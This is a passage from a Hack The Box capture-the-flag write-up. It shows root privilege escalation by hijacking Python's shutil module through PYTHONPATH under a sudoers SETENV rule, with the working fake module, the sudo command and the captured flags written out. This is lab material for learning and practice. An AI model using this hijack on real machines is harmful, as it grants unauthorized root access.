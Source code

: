 This backup tool imports the `make_archive` function from the `shutil` module to
generate a `gztar` archive of the `/var/www/html` folder:

```python
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

In Python, the folders where the interpreter looks for the modules you try to
import are listed in the [`PYTHONPATH`][python-path] environment variable, just
like `PATH` in a shell. Given that the `SETENV` option is set in the `sudoers`
policy module for the execution of `/opt/scripts/admin_tasks.sh` by `waldo`, the
value of `PYTHONPATH` can be overwritten, allowing to inject custom versions of
the imported modules.

It is exactly the strategy I followed. I created another module named `shutil`
containing my own implementation of `make_archive`:

```python
def make_archive(x, y, z):
    with open('/root/root.txt', 'r') as f:
        print(f.readline())
```

I placed this Python script in `/tmp/shutil/__init__.py` and then:

```
$ sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh 6
Running backup script in the background, it might take a while...
$ 86875a82845fa2c5f211500a85d78f5c


$
```

The root flag was `cf943b5f4a33dc4b9a438550d232915f`.

## Wrapping up

It was an easy machine, as expected. It still allowed me to discover the Adminer
project and it was also an occasion for me to use the rogue MySQL server of
Bettercap.

 [adminer-exploit-blog-post]: https://medium.com/bugbountywriteup/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f "Adminer Script Results to Pwning Server?, Private Bug Bounty Program"
 [bettercap]: https://www.bettercap.org/ "Bettercap Official Website"
 [bettercap-caplets]: https://www.bettercap.org/usage/#caplets "Bettercap - Caplets"
 [bettercap-mysql-module]: https://www.bettercap.org/modules/ethernet/servers/mysql.server/ "Bettercap MySQL module"
 [htb]: https://hackthebox.eu/ "Hack The Box - Main Website"
 [kali-hydra]: https://tools.kali.org/password-attacks/hydra "Kali Tools - Hydra Package Description"
 [nmap-ftp-anon]: https://nmap.org/nsedoc/scripts/ftp-anon.html "Nmap script ftp-anon"
 [python-path]: https://docs.python.org/3/using/cmdline.html#envvar-PYTHONPATH "Python 3 Documentation - PYTHONPATH"
